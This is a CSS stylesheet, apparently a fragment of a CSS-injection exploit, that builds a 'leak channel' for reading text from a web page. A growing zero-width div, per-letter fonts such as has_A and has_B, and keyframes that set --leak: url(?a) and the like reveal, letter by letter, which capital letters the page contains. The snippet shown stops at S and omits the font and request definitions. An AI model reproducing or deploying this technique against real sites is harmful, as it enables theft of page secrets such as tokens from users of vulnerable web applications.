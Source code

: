 ```css
div.leak {
    overflow-y: auto; /* leak channel */
    overflow-x: hidden; /* remove false positives */
    height: 40px; /* comic sans capitals exceed this height */
    font-size: 0px; /* make suffix invisible */
    letter-spacing: 0px; /* separation */
    word-break: break-all; /* small width split words in lines */
    font-family: rest; /* default */
    background: grey; /* default */
    width: 0px; /* initial value */
    animation: loop step-end 200s 0s, trychar step-end 2s 0s; /* animations: trychar duration must be 1/100th of loop duration */
    animation-iteration-count: 1, infinite; /* single width iteration, repeat trychar one per width increase (or infinite) */
}

div.leak::first-line{
    font-size: 30px; /* prefix is visible in first line */
    text-transform: uppercase; /* only capital letters leak */
}

/* iterate over all chars */
@keyframes trychar {
    0% { font-family: rest; } /* delay for width change */
    5% { font-family: has_A, rest; --leak: url(?a); }
    6% { font-family: rest; }
    10% { font-family: has_B, rest; --leak: url(?b); }
    11% { font-family: rest; }
    15% { font-family: has_C, rest; --leak: url(?c); }
    16% { font-family: rest }
    20% { font-family: has_D, rest; --leak: url(?d); }
    21% { font-family: rest; }
    25% { font-family: has_E, rest; --leak: url(?e); }
    26% { font-family: rest; }
    30% { font-family: has_F, rest; --leak: url(?f); }
    31% { font-family: rest; }
    35% { font-family: has_G, rest; --leak: url(?g); }
    36% { font-family: rest; }
    40% { font-family: has_H, rest; --leak: url(?h); }
    41% { font-family: rest }
    45% { font-family: has_I, rest; --leak: url(?i); }
    46% { font-family: rest; }
    50% { font-family: has_J, rest; --leak: url(?j); }
    51% { font-family: rest; }
    55% { font-family: has_K, rest; --leak: url(?k); }
    56% { font-family: rest; }
    60% { font-family: has_L, rest; --leak: url(?l); }
    61% { font-family: rest; }
    65% { font-family: has_M, rest; --leak: url(?m); }
    66% { font-family: rest; }
    70% { font-family: has_N, rest; --leak: url(?n); }
    71% { font-family: rest; }
    75% { font-family: has_O, rest; --leak: url(?o); }
    76% { font-family: rest; }
    80% { font-family: has_P, rest; --leak: url(?p); }
    81% { font-family: rest; }
    85% { font-family: has_Q, rest; --leak: url(?q); }
    86% { font-family: rest; }
    90% { font-family: has_R, rest; --leak: url(?r); }
    91% { font-family: rest; }
    95% { font-family: has_S, rest; --leak: url(?s); }
    96% { font-family: rest; }
}
```